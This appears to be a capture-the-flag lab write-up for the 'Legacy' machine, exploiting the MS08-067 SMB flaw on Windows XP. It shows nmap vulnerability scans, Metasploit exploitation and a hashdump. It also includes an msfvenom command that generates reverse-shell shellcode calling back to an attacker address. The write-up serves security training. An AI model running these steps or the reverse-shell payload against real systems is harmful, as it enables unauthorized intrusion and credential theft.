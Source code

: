 # Legacy

## Overview

Legacy is a pretty straightforward machine which exploits SMB on Windows. This machine showcases CVE-2008-4250 / ms08\_067.

1. [https://nvd.nist.gov/vuln/detail/cve-2008-4250](https://nvd.nist.gov/vuln/detail/cve-2008-4250)
2. [https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250)
3. [https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15](https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15)

## Enumeration

### Nmap

```bash
sudo nmap -Pn -sV -sC 10.129.1.111 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 10:41 EDT
Nmap scan report for 10.129.1.111
Host is up (0.021s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:ec:a3 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-03-28T19:39:25+03:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.34 seconds
```

From the Nmap scan, we see that SMB is open and the OS is Windows XP



A handy command that we can run for SMB vulnerability identification is the following:

```bash
sudo nmap --script smb-vuln* -p 445 10.129.1.111
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 10:49 EDT
Nmap scan report for 10.129.1.111
Host is up (0.021s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 5.45 seconds
```

The above command shows this machine is vulnerable to 2 SMB vulnerabilities.

## Exploitation with Metasploit

Using the Metasploit module `exploit/windows/smb/ms08_067_netapi`, we'll set up our payload as such:

![](<../../../../.gitbook/assets/image (49).png>)

![](<../../../../.gitbook/assets/image (69).png>)

{% hint style="info" %}
To set options (e.g. RHOSTS), enter "set RHOST \[target IP]"
{% endhint %}

With this information entered, we can now run the exploit with `run` or `exploit`

![](<../../../../.gitbook/assets/image (43) (1) (1).png>)

As shown in the image above, running getuid returns us NT AUTHORITY\SYSTEM which means no privilege escalation is needed as we have the highest privileges on the current system.

## Exploitation without Metasploit

The exploit I used can be found here:

{% embed url="https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py" %}

The script explains how to achieve your goal with showing where to make modifications and what commands to run

First I run the msfvenom command mentioned in the code.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

![](<../../../../.gitbook/assets/image (57).png>)

Then replace the shellcode in the code with the shellcode we just generated.

Running an nmap scan on the target once more with -O (OS Detection) reveals that the target is running Microsoft Windows XP SP3 (94%). With this is mind, we'll trying using this sample command

![](<../../../../.gitbook/assets/image (67).png>)

Let's set up a netcat listener and then run the command and you should get a reverse shell.

I've followed these articles, but had no success.

{% embed url="https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010" %}

{% embed url="https://blog.nullprism.io/posts/htb-legacy" %}

## Post Exploitation

One thing we can do with the meterpreter shell is run a hashdump on the target

![](<../../../../.gitbook/assets/image (48).png>)

We can then take these hashes and crack them with JohnTheRipper or Hashcat
